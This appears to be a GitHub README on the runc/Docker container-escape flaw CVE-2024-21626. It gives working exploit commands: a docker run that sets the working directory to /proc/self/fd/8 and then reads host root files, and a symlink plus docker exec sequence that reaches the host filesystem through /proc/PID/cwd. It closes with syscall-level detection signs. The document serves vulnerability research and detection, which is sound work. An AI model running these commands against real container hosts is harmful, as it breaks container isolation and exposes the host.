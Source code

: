# Docker Escape Vulnerability CVE-2024-21626

## Research link: https://nitroc.org/en/posts/cve-2024-21626-illustrated/#exploit-via-setting-working-directory-to-procselffdfd

### According to the article, it can be exploited in 2 ways:

#### 1) Set the working directory of the container to /proc/self/fd/<fd> (where <fd> stands for the file descriptor when opening /sys/fs/cgroup in host filesystem. Usually it’s 7 or 8) when running a container.

#### 2) Create a symlink for /proc/self/fd/<fd> (where <fd> stands for the file descriptor when opening /sys/fs/cgroup in host filesystem. Usually it’s 7 or 8). When users execute commands inside the container via docker exec or kubectl exec by setting the working directory to the symlink, attackers can access host filesystem through /proc/<PID>/cwd, where <PID> stands for the PID of the process generated by docker exec or kubectl exec command.

## Commands:

### 1) Exploit via Setting Working Directory to /proc/self/fd/

 - docker run -w /proc/self/fd/8 --name cve-2024-21626 --rm -it debian:bookworm 

 - cat ../../../../../../root/root/.txt

### 2) Docker Exec

 - Containerised root shell:> ln -sf /proc/self/fd/7/ /foo

 - Containerised root shell:> ln -sf /proc/self/fd/8/ /bar

 -  Attacker shell:> docker exec -it -w /bar cve-2024-21626 sleep 120

 - Containerised root shell:> ls -f /proc

 - Containerised root shell:> cat /proc/NUM/cmdline

 - Containerised root shell:> ls -la /proc/NUM/cwd/../../../../root/

## Detection:

### According to the article:

### The exploits have the following characteristics:

 - A container will execve(2) a process with a special working directory which starts with /proc/self/fd/.

 - A container will create symbolic links via symlink(2) or symlinkat(2) with a special target directory link which starts with /proc/self/fd/.

 - A container will open files via open(2), openat(2) or openat2(2) with filenames like /proc/\d+/cwd/.*

